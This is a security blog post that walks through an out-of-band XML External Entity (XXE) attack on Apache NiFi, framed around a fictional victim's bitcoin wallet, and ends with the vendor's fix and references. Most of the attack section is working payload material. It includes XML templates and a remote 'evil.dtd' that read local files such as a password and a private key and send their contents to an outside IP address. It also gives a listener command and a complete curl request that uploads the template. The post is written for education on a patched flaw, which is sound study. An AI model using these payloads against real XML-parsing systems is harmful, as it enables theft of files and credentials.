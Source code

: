 +++
title = "Exploiting XXE Vulnerabilities in Apache NiFi"
date = "2018-01-11T17:30:00+08:00"
tags = ["exploit", "xxe", "nifi"]
categories = ["security"]
banner = "img/banners/introduction-to-makers-today.png"
+++

## Introduction

I've based this write up on a fantastic one published by [Chris Davis from Counter Hack on the SANS Pen-testing blog](https://pen-testing.sans.org/blog/2017/12/08/entity-inception-exploiting-iis-net-with-xxe-vulnerabilities). The actual exploit itself is one that has been acknowledged and [fixed in the latest public build of NiFi (1.4.0)](https://nifi.apache.org/security.html).

The reason for this post is purely for education purposes, as I'd worked with XML External Entity attacks in the past; but never fully understood how and why they work.

### Exfiltration over Inception

The first exploit works by taking advantage of a small gap in the well-formed restrictions put on the XML. Lets take a look at the way we could potentially load an external entity.

```xml
<?xml version="1.0" encoding="utf-8"?-->
<!DOCTYPE demo [
     <!ELEMENT demo ANY >
     <!ENTITY % extentity SYSTEM "http://203.59.106.231:9002/evil">
     %extentity;
     ]
>
```

Here we are trying to load an entity from the URI of our control web server. Unfortunately however XML has some well-formed restrictions that prohibit this behaviour.

Instead perhaps we try **Entity Inception** where we attempt to load an external entity from another sub entity within our XML payload.

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE demo [
    <!ELEMENT demo ANY >
    <!ENTITY % extentity "<!ENTITY stolendata SYSTEM ?file:///Users/nathan/Documents/bitcoinpassword'>">
    %extentity;
    ]
<
```

Unfortunately you cannot declare a URI to load an external entity (for example, `/Users/nathan/Documents/bitcoinpassword` and declare it as a value directly, so this isn't going to work either.

Knowing that we can't currently reference a file on the system, but we can get the parser to grab a resource from a URI we can look at a mechanism that allows us to load Data Type Defitions from a file. This is called DTD (Data Type Definition) and it's loaded prior to an XML file being parsed.

This actually lets us load in typically restricted entity payloads and bypass the checks done by some less robust parsers.

Take a look at the following DTD file that will be served up remotely

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % stolendata SYSTEM "file:///Users/nathan/Documents/bitcoinpassword">
<!ENTITY % inception "<!ENTITY &#x25; sendit SYSTEM 'http://203.59.106.231:9002/?%stolendata;'>">
```

The DTD file will load the target system with the `%inception` and `%sendit` variables, that come packed with the `%stolendata` entity; negating the well-formed restrictions.

Here's the XML file that will be loaded into NiFi to exploit the vulnerability.

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE demo [
	<!ELEMENT demo ANY >
	<!ENTITY % extentity SYSTEM "http://203.59.106.231:9002/evil.dtd">
	%extentity;
	%inception;
	%sendit;
	]
>
```

The diagram below outlines again how this attack takes place.

<img class="img-responsive image-box-shadow" src="/img/blog/2018/01/xxe-nifi-diagram.png" />

#### Running the Attack

Nathan has felt pretty smug recently, having made 1.6 billion fake dollars in the Crypto currency boom he's retired and started learning NiFi in his freetime.

He left his wallet private key and its password just sitting on the NiFi server (he use to use this system to mine) in his documents folder!

Let's use XXE to grad his data and make a clean get away! First we create the two files needs for this exploit:

* nifi-xxe-example.xml

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE demo [
	<!ELEMENT demo ANY >
	<!ENTITY % extentity SYSTEM "http://203.59.106.231:9002/evil.dtd">
	%extentity;
	%inception;
	%sendit;
	]
>
```

* evil.dtd

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % stolendata SYSTEM "file:///Users/nathan/Documents/bitcoinpassword">
<!ENTITY % inception "<!ENTITY &#x25; sendit SYSTEM 'http://203.59.106.231:9002/?%stolendata;'>">
```

Then we start up a remote listener on port 9002 (or any port that was defined in the DTD and rouge NiFi template)

```bash
python -m SimpleHTTPServer 9002
```

Turns out he also left his NiFi server with the default `No Authentication`, so we can simply open up the web page that serves NiFi's flow viewer on http://nifi.nathanglover.com:8080/nifi/

<img class="img-responsive image-box-shadow" src="/img/blog/2018/01/xxe-nifi-flow-view.jpg" />

We then start up our python HTTP listener, or any other web server that could be hosting out malicious DTD payload

<img class="img-responsive image-box-shadow" src="/img/blog/2018/01/xxe-nifi-webserver.jpg" />

Then we just upload the template

<img class="img-responsive image-box-shadow" src="/img/blog/2018/01/xxe-nifi-upload-flow.jpg" />

You should see two GET requests to your web server

<img class="img-responsive image-box-shadow" src="/img/blog/2018/01/xxe-nifi-password-extract.jpg" />

* /evil.dtd - This is the NiFi instance pulling your malicious Data Type Definition file
* /?hunter1 - This is the contents of the `bitcoinpassword` file!

Now to get the private key we simply change the line in `evil.dtd` to a different target file and run it again

```bash
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % stolendata SYSTEM "file:///Users/nathan/Documents/privatekey">
<!ENTITY % inception "<!ENTITY &#x25; sendit SYSTEM 'http://203.59.106.231:9002/?%stolendata;'>">
```

<img class="img-responsive image-box-shadow" src="/img/blog/2018/01/xxe-nifi-private-key-extract.jpg" />

I've also included a copy of the `curl` command in case you want to run this headless

```bash
curl -i -s -k -X  'POST'  \
 -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:58.0) Gecko/20100101 Firefox/58.0'  -H 'Accept: application/xml, text/xml, */*; q=0.01'  -H 'Accept-Language: en-US,en;q=0.5'  -H 'Referer: http://nifi.nathanglover.com:8080/nifi/'  -H 'X-Requested-With: XMLHttpRequest'  -H 'Content-Length: 421'  -H 'Content-Type: multipart/form-data; boundary=---------------------------51116583712296344591231217332'  -H 'Cookie: _ga=GA1.2.449301531.1511008419'  -H 'Connection: keep-alive'  -H ''  \
--data-binary $'-----------------------------51116583712296344591231217332\r\nContent-Disposition: form-data; name=\"template\"; filename=\"nifi-xxe-example.xml\"\r\nContent-Type: text/xml\r\n\r\n<?xml version=\"1.0\" encoding=\"utf-8\"?>\n<!DOCTYPE demo [\n\t<!ELEMENT demo ANY >\n\t<!ENTITY % extentity SYSTEM \"http://203.59.106.231:9002/evil.dtd\">\n\t %extentity;\n\t%inception;\n\t%sendit;\n\t ]\n>\n\r\n-----------------------------51116583712296344591231217332--\r\n' \
'http://nifi.nathanglover.com:8080/nifi-api/process-groups/e5467fac-0160-1000-79c7-86152e91f12e/templates/upload'
```

This was based off the request captured from OWASP ZAP

<img class="img-responsive image-box-shadow" src="/img/blog/2018/01/xxe-nifi-owasp-zap.jpg" />

#### Limitations

Currently there a few limitations and exclusions to this attack. I've found that it only works appropriately when all the text in the file you are pulling is only a single line. I tested and noticed that `\n` characters appear to break the URI stream and you end up losing the whole value.

I also attempted to exploit a couple known [denial of service attacks](https://www.owasp.org/index.php/XML_Security_Cheat_Sheet#Quadratic_Blowup) however it became clear that Java SE 5+ has a restriction on entity expansion to 64,000 elements enabled by default, so if I try to ingest DoS XEE you'll get an error like the following

```bash
2018-01-11 23:20:40,226 ERROR [NiFi Web nifi-docker-01] o.a.nifi.web.ContentViewerController Unable to generate view of data: Unable to transform content as XML: net.sf.saxon.trans.XPathException: org.xml.sax.SAXParseException; lineNumber: 1; columnNumber: 1; JAXP00010001: The parser has encountered more than "64000" entity expansions in this document; this is the limit imposed by the JDK.
```

### The Fix
---

NiFi have currently fixed this bug in 1.4.0 releases of NiFi. The code changes can be found at the following commit:

[https://github.com/apache/nifi/commit/3bf1d127062a2d52d7be32e5ef29e19242219f48](https://github.com/apache/nifi/commit/3bf1d127062a2d52d7be32e5ef29e19242219f48).

To summarize, thet new code seen below now includes a secure processing validator which is run over all XML uploaded to NiFi from the template view

```java
public static final PropertyDescriptor SECURE_PROCESSING = new PropertyDescriptor.Builder()
        .name("secure-processing")
        .displayName("Secure processing")
        .description("Whether or not to mitigate various XML-related attacks like XXE (XML External Entity) attacks.")
        .required(true)
        .defaultValue("true")
        .allowableValues("true", "false")
        .addValidator(StandardValidators.BOOLEAN_VALIDATOR)
        .build();

...

private Templates newTemplates(ProcessContext context, String path) throws TransformerConfigurationException {
    final Boolean secureProcessing = context.getProperty(SECURE_PROCESSING).asBoolean();
    TransformerFactory factory = TransformerFactory.newInstance();

    if (secureProcessing) {
        factory.setFeature(XMLConstants.FEATURE_SECURE_PROCESSING, true);
        // don't be overly DTD-unfriendly forcing http://apache.org/xml/features/disallow-doctype-decl
        factory.setFeature("http://saxon.sf.net/feature/parserFeature?uri=http://xml.org/sax/features/external-parameter-entities", false);
        factory.setFeature("http://saxon.sf.net/feature/parserFeature?uri=http://xml.org/sax/features/external-general-entities", false);
    }

    return factory.newTemplates(new StreamSource(path));
}
```

## References
---

[CVE-2017-12623 NIST Detail](https://nvd.nist.gov/vuln/detail/CVE-2017-12623)

[NIFI-4125 commit resolving CVE-2017-12623](https://github.com/apache/nifi/commit/3bf1d127062a2d52d7be32e5ef29e19242219f48)

[Exploiting XXE Vulnerabilities in IIS/.NET](https://pen-testing.sans.org/blog/2017/12/08/entity-inception-exploiting-iis-net-with-xxe-vulnerabilities)

[XML Schema, DTD, and Entity Attacks](https://vsecurity.com//download/papers/XMLDTDEntityAttacks.pdf)

[XML Security Cheat Sheet](https://www.owasp.org/index.php/XML_Security_Cheat_Sheet)